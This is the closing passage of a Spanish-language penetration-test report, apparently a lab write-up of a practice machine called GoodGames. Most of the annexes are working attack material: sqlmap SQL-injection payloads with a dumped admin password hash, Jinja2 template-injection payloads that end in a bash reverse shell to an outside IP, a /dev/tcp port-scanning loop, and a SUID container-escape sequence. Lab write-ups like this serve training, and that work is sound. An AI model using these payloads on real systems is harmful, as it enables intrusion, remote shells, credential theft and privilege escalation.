privilegio, en la aplicación y en la infraestructura.

### 6.2 Aprendizajes del auditor

- **SSTI en Jinja2:** la cadena `__init__.__globals__.__builtins__.__import__('os')` para
  pasar de `{{7*7}}` a ejecución de comandos, verificando siempre primero con una expresión
  aritmética inofensiva.
- **Escape de contenedor por montaje compartido:** detectar el `/dev/sda1` montado en el
  _home_ fue la clave; un binario SUID creado desde el contenedor `root` se hereda en el host.
- **A mejorar:** automatizar el escaneo de puertos internos (`/dev/tcp`) desde el contenedor
  para identificar antes el servicio SSH del anfitrión y el pivote por reutilización de credenciales.

---

## 7. Anexos

### A. Salida completa de escaneos

<details>
<summary>nmap — descubrimiento de puertos (puertos.txt)</summary>

```text
# Nmap 7.992 scan initiated Mon Oct 26 07:50:54 2026 as: nmap -p- --min-rate=5000 -T4 -Pn -n -oN puertos.txt 10.129.96.71
Nmap scan report for 10.129.96.71
Host is up (0.16s latency).
Not shown: 65534 closed tcp ports (conn-refused)
PORT   STATE SERVICE
80/tcp open  http

# Nmap done at Mon Oct 26 07:51:07 2026 -- 1 IP address (1 host up) scanned in 13.62 seconds
```

</details>

<details>
<summary>nmap — detección de servicios (detallado.txt)</summary>

```text
# Nmap 7.992 scan initiated Mon Oct 26 07:51:30 2026 as: nmap -sVC -p80 -T4 -Pn -n -oN detallado.txt 10.129.96.71
Nmap scan report for 10.129.96.71
Host is up (0.16s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Werkzeug httpd 2.0.2 (Python 3.9.2)
|_http-title: GoodGames | Community and Store

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Oct 26 07:51:40 2026 -- 1 IP address (1 host up) scanned in 9.94 seconds
```

</details>

<details>
<summary>sqlmap — enumeración y volcado de la base de datos</summary>

```text
sqlmap -r login.req --batch --dbs
Parameter: email (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: email=admin@goodgames.htb' AND (SELECT 5498 FROM (SELECT(!SLEEP(5)))wroh) AND 'Oees'='Oees&password=password
back-end DBMS: MySQL >= 5.0.12
available databases [2]:
[*] information_schema
[*] main

sqlmap -r login.req --batch -D main --tables
Database: main
[3 tables]
+---------------+
| user          |
| blog          |
| blog_comments |
+---------------+

sqlmap -r login.req --batch -D main -T user --dump
Database: main
Table: user
[1 entry]
+----+---------------------+--------+----------------------------------+
| id | email               | name   | password                         |
+----+---------------------+--------+----------------------------------+
| 1  | admin@goodgames.htb | admin  | 2b22337f218b2d82dfc3b6f77e7cb8ec |
+----+---------------------+--------+----------------------------------+
```

</details>

### B. Scripts y exploits

<details>
<summary>Cargas SSTI (Jinja2)</summary>

```jinja
{# Detección #}
{{7*7}}

{# Ejecución de comandos #}
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}

{# Reverse shell #}
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('bash -c "bash -i >& /dev/tcp/10.10.15.56/443 0>&1"').read() }}
```

</details>

<details>
<summary>Escaneo de puertos interno y escalada SUID</summary>

```bash
# Descubrir puertos del host desde el contenedor (sin herramientas externas)
for PORT in {0..1000}; do timeout 1 bash -c "</dev/tcp/172.19.0.1/$PORT &>/dev/null" 2>/dev/null && echo "port $PORT is open"; done

# Desde el contenedor (root) sobre el montaje compartido /home/augustus
cp /bin/bash /home/augustus/bash
chown root:root /home/augustus/bash
chmod 4755 /home/augustus/bash

# En el host, como augustus por SSH
./bash -p
cat /root/root.txt
```

</details>

### C. Mapeo MITRE ATT&CK

| Táctica                       | Técnica                                              | ID                                                          |
| ----------------------------- | ---------------------------------------------------- | ----------------------------------------------------------- |
| Initial Access                | Exploit Public-Facing Application                    | [T1190](https://attack.mitre.org/techniques/T1190/)         |
| Credential Access             | Brute Force: Password Cracking                       | [T1110.002](https://attack.mitre.org/techniques/T1110/002/) |
| Execution                     | Command and Scripting Interpreter                    | [T1059](https://attack.mitre.org/techniques/T1059/)         |
| Lateral Movement              | Remote Services: SSH                                 | [T1021.004](https://attack.mitre.org/techniques/T1021/004/) |
| Privilege Escalation          | Escape to Host                                       | [T1611](https://attack.mitre.org/techniques/T1611/)         |
| Privilege Escalation          | Abuse Elevation Control Mechanism: Setuid and Setgid | [T1548.001](https://attack.mitre.org/techniques/T1548/001/) |
| Defense Evasion / Persistence | Valid Accounts                                       | [T1078](https://attack.mitre.org/techniques/T1078/)         |

### D. Referencias generales

- [PTES — Penetration Testing Execution Standard](http://www.pentest-standard.org/)
- [OWASP Web Security Testing Guide](https://owasp.org/www-project-web-security-testing-guide/)
- [Calculadora CVSS v3.1 — FIRST](https://www.first.org/cvss/calculator/3.1)
- [MITRE ATT&CK](https://attack.mitre.org/)
